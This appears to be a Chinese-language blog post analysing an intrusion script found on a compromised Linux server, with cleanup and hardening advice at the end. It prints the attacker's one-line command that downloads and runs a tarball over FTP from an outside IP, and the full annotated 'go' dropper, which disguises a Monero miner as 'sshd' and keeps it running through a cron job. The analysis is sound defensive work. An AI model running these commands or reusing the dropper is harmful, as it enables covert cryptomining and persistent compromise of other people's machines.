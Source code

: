 ```yaml
---
title: '入侵脚本分析 - 瞒天过海'
date: '2019-12-23 18:54:01'
draft: false
---
```


机器被入侵了，写点东西，分析一下入侵脚本，顺便也学习一下。

```bash
bash -c curl -O ftp://noji:noji2012@153.122.137.67/.kde/sshd.tgz;tar xvf sshd.tgz;rm -rf sshd.tgz;cd .ssd;chmod +x *;./go -r
```

# 下载恶意软件

恶意软件的是使用 ftp 下载的， 地址是：ftp://noji:noji2012@153.122.137.67/.kde/sshd.tgz，这个 153.122.137.67 IP 是位于日本东京，ssd.taz 是一个 tar 包，用 tar 解压之后，出现一个 sh 文件，两个可执行文件。

```bash
-rwxr-xr-x 1 1001 1001  907 Nov 20 20:58 go # shell
-rwxrwxr-x 1 1001 1001 1.3M Nov 20 21:06 i686 # 可执行
-rwxrwxr-x 1 1001 1001 1.1M Nov 20 21:06 x86_64 # 可执行
```

# 分析可执行文件 go

go 是一个 shell 程序，下文是分析

```bash
#!/bin/bash

# pool.supportxmr.com门罗币的矿池
# 所以大家应该清楚了，入侵的机器应该用来挖矿的
# 这一步是测试本机与矿池dns是否通
if [ $(ping -c 1 pool.supportxmr.com 2>/dev/null|grep "bytes of data" | wc -l ) -gt '0' ];   then
        dns="" # dns通
else
        dns="-d" # dns不通
fi

# 删除用户计划任务，并将报错信息清除
crontab -r 2>/dev/null

# 这一步不太懂
rm -rf /tmp/.lock 2>/dev/null

# 设置当前进程的名字，为了掩人耳目，起个sshd, 鱼目混珠
EXEC="sshd"

# 获取当前目录
DIR=`pwd`

# 获取参数个数
# 这个程序传了一个 -r 参数，所以$#的值是1
if [ "$#" == "0" ];	then
	ARGS=""
else
	# 遍历每一个参数
	for var in "$@"
	do
		if [ "$var" != "-f" ];	then
			ARGS="$ARGS $var" # $var不是-f, 所以ARGS被这是为-r
		fi
		if [ ! -z "$FAKEPROC" ];	then
			FAKEPROC=$((FAKEPROC+1)) # 这里不会执行，因为$FAKEPROC是空字符串
		fi
		if [ "$var" == "-h" ];	then
			FAKEPROC="1" # 这里也不会执行
		fi
		if [[ "$FAKEPROC" == "2" ]];	then
			EXEC="$var" # 这里也不会执行
		fi
		if [ ! -z "$dns" ];	then
			ARGS="$ARGS $dns" # 如果本机与矿池dns通，则这里不会执行
		fi
	done
fi

# 创建目录
mkdir -- ".$EXEC" #创建 .sshd目录
cp -f -- `uname -m` ".$EXEC"/"$EXEC" # uname -m获取系统架构，然后判断要把i686还是x86_64拷贝到.sshd目录, 并重命名为sshd
./".$EXEC"/"$EXEC" $ARGS -f -c # 执行改名后的文件
rm -rf ".$EXEC"

# 生成后续执行的脚本
echo "#!/bin/bash
cd -- $DIR
mkdir -- .$EXEC
cp -f -- `uname -m` .$EXEC/$EXEC
./.$EXEC/$EXEC $ARGS -c
rm -rf .$EXEC" > "$EXEC"
chmod +x -- "$EXEC"
# 执行脚本
./"$EXEC"

# 生成计划任务执行脚本
(echo "* * * * * `pwd`/$EXEC") | sort - | uniq - | crontab -

# 删除go脚本
rm -rf go
```

上文的脚本中，有许多命令后跟着 `--`  和 `-`  这两个参数都是 bash 脚本的内置参数，用来标记命令的内置参数已经结束。

由于 x86_64 和 i686 是可执行文件，就不分析了。

# 恶意文件清除

1. 清除 crontab 定时任务
2. 清除可执行文件。可以 ll /proc/pid/exe  , 看下恶意进程的可执行文件位置
3. kill 恶意程序的进程
4. 修改 root 密码

# 如何防护

-   使用强密码，至少 32 位
-   使用 ssh key 登录
-   有些脚本会把名字伪装成系统服务，所以不要被进程的名字迷惑，而应该看看这个进程使用的资源是否合理。一个 sshd 的进程，正常来说占用 cpu 和内存不会超过 1%。如果你发现一个占用 CPU%的 sshd 进程，你就要小心这东西是不是滥竽充数了。

#
